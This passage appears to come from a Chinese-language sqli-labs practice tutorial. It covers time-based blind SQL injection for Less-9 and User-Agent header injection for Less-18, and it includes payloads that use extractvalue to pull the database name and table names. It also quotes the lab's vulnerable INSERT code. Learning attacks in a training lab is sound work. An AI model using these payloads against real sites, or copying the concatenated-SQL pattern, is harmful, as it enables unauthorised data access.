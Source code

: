 ```
http://[靶机IP]/sqli-labs/Less-9/?id=1' and if(length(database())=7,sleep(5),1)--+
```

后面方法基本类似于之前实验，只要构造if() 语句的第一个参数就好。

## http文件头注入

常见的HTTP Header注入类型包括Cookie注入、Referer注入、User-Agent注入、XFF注入等(注入

位置)。

**实验**

在原始HTTP请求包的头部字段User-Agent末尾添加单引号，即使用如下payload：

```
User-Agent:Mozilla/5.0......Firefox/46.0'
```

发现服务器端报错！

在原始HTTP请求包的头部字段User-Agent末尾添加如下符号，使用如下payload：

```
User-Agent:Mozilla/5.0......Firefox/46.0','','')#
```

服务器端未报错！

由此可以判断，目标网站在POST参数处存在字符型注入点。

注：如果在服务器端（靶机）上查看Less-18的php代码，会发现其中存在这样一段代码：

```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

使用以下payload获取网站当前所在数据库的库名：

```
User-Agent:Mozilla/5.0......Firefox/46.0' and extractvalue(1,concat('~',database())),'','')#
```

显示结果为security。

使用以下payload获取数据库security的全部表名：

```
User-Agent:Mozilla/5.0......Firefox/46.0' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='security'))),'','')#
```

以下步骤同之前类似。

